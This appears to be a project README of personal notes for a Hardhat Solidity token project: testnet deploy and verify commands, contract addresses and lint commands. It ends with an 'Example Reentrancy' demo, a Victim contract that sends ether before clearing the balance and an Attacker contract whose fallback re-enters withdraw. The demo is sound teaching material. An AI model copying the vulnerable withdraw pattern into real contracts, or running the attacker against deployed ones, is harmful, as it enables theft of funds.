 # secret-token

Deploy:
npx hardhat run /Users/antonpolenyaka/Documents/GitHub/secret-token/scripts/deploy.ts --network sepolia

SecretToken deployed to 0x841c4091C27D1Af754a4DA9Fbb0B0941Bce7E19d

npx hardhat --network sepolia verify --constructor-args ./scripts/arguments.ts 0x841c4091C27D1Af754a4DA9Fbb0B0941Bce7E19d

https://sepolia.etherscan.io/address/0x841c4091C27D1Af754a4DA9Fbb0B0941Bce7E19d#code

solhint contracts/ExampleContract.sol

solhint init-config 
solium --init 

coverage:
.../secret-token/coverage/index.html

SecretToken deployed to 0xa0Fc09E2Cbf0Da363039dB99894E7a3E5b5A9B48

Example Reentrancy:

pragma solidity 0.4.26;

contract Victim {

    uint public owedToAttacker;

    function Victim() payable {
        owedToAttacker =11;
    }

    function withdraw() payable {
        if (!msg.sender.call.value(owedToAttacker)()) revert(); 
        owedToAttacker = 0;
    }

    // deposit some funds for testing
    function deposit() payable {}

    function getBalance() public constant returns(uint) { return this.balance; }   

    function () payable {} 
}

contract Attacker {

    Victim v;
    uint public count;

    event LogFallback(uint count, uint balance);

    function Attacker(address victim) payable {
        v = Victim(victim);
    }

    function attack() payable {
        v.withdraw();
    }

    function () payable {
        count++;
        LogFallback(count, this.balance);
        // crude stop before we run out of gas
        if(count < 5) v.withdraw();
    }

    function getBalance() public constant returns(uint) { return this.balance; }    

}